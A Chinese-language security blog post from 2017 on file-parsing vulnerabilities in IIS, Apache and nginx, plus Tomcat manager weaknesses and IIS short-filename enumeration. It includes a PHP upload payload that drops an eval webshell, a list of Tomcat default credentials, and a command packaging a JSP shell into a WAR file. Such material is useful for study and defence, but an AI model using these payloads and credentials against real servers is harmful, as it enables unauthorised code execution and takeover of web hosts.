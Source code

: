 ```yaml
---
layout:     post
title:      "解析漏洞及其他"
subtitle:   ""
date:       2017-07-31 15:00:00
author:     "S0u1"
header-img: "img/post-bg-2015.jpg"
tags:
    - 学习
---
```

# 服务器解析漏洞  
## IIS5.x-6.x解析漏洞  
该解析漏洞只能解析asp文件。  

### 目录解析(6.0)  
形式：www.xxx.com/xx.asp/xx.jpg  
服务器会把.asp和.asa目录下的文件都解析成asp文件。  

### 文件解析  
形式：www.xxx.com/xx.asp;.jpg  
服务器默认不解析;后面的内容，因此xx.asp;.jpg被解析成asp文件。  

### 解析文件类型  
IIS6.0默认的可执行文件还有：    
/test.asa  
/test.cer  
/test.cdx  

## apache解析漏洞  
形式：www.xxx.com/test.php/php123  
apache解析文件的规则是从右向左解析，如果后缀名为不可识别的文件，就继续往左识别。  
## nginx解析漏洞  
形式：www.xxx.com/UploadFiles/image/1.jpg/1.php  
www.xxx.com/UploadFiles/image/1.jpg%00/php  
www.xxx.com/UploadFiles/image/1.jpg/%20\0.php  

Nginx默认是以CGI的方式支持PHP解析的，普遍的做法是在Nginx配置文件中通过正则匹配设置SCRIPT_FILENAME。  

当访问www.xx.com/phpinfo.jpg/1.php这个URL时，$fastcgi_script_name会被设置为“phpinfo.jpg/1.php”，然后构造成SCRIPT_FILENAME传递给PHPCGI，但是PHP为什么会接受这样的参数，并将phpinfo.jpg作为PHP文件解析呢?  

这就要说到fix_pathinfo这个选项了。   如果开启了这个选项，那么就会触发在PHP中的如下逻辑:
PHP会认为SCRIPT_FILENAME是phpinfo.jpg，而1.php是PATH_INFO，所以就会将phpinfo.jpg作为PHP文件来解析了
另一种利用：  
上传一个名为test.jpg的文件，内容为：
```php
<?php fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd]?>');?>
```
然后访问test.jpg/.php，就会在根目录下生成一句话木马shell.php  

## IIS7.5解析漏洞
与nginx类似
# 其他
## Tomcat远程部署漏洞  
tomcat为了方便管理与部署，安装完成后会默认有一个管理页面，管理员只需要远程上传一个war格式的文件，就可以将内容发布到网站。  
tomcat的管理地址通常是：

>http://localhost:8080/manager

默认的账号密码是：

>root/root  
tomcat/tomcat  
admin/admin  
admin/123456  

## tomcat爆破
tomcat的认证比较弱，对用户名：密码做base64编码，请求响应如果不是401即表示登陆成功。登陆成功后，可直接上传war文件来getshell。  
使用  

>jar -cvf shell.war shell.jsp

将.jsp的文件打包为war文件。

## Apache默认页面泄露漏洞  
Apache在安装后存在默认目录/icons/、/manual/  

## IIS短文件名暴力猜解漏洞
判断目标站点是否存在IIS短文件名暴力破解漏洞，可以分别访问以下两个URL：

>http://localhost/\*~1\*\*\*\*/a.aspx  
http://localhost/l1j1e\*~1\*\*\*\*/a.aspx

如果访问第一个URL，返回404，而访问第二个URL，返回400，则说明目标站点存在漏洞。
